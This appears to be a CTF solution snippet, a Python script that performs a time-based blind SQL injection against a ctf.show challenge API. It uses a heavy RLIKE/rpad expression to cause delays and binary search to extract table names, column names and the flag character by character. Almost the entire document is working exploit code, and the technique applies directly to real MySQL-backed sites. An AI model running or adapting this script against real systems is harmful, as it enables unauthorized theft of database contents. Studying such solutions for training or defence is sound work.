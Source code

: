 以上代码等同于sleep(5)秒

```
import time

import requests

url = "http://6a887fe9-0d60-463b-825c-6cfccacc07bb.challenge.ctf.show:8080/api/"
# 表名 ctfshow_flagxc,ctfshow_info
# payload = "ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}"
# 列名 id,flagaac
# payload = "ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1))>{}"
# flag
payload = "ascii(mid((select flagaac from ctfshow_flagxc),{},1))>{}"


def valid_payload(p: str) -> bool:
    data = {
        "debug": 0,
        "ip": f"if({p},(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'),1) "
    }
    time_s = time.time()
    _ = requests.post(url, data=data)
    time_e = time.time()
    # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入
    return time_e-time_s > 4


index = 1
result = ""

while True:
    start = 32
    end = 127
    while not(abs(start - end) == 1 or start == end):
        everage = (start + end) // 2
        if valid_payload(payload.format(index, everage)):
            start = everage
        else:
            end = everage
    if end < start:
        end = start
    if chr(end) == "!":
        break
    result += chr(end)
    print(f"[*] result: {result}")
    index += 1

```
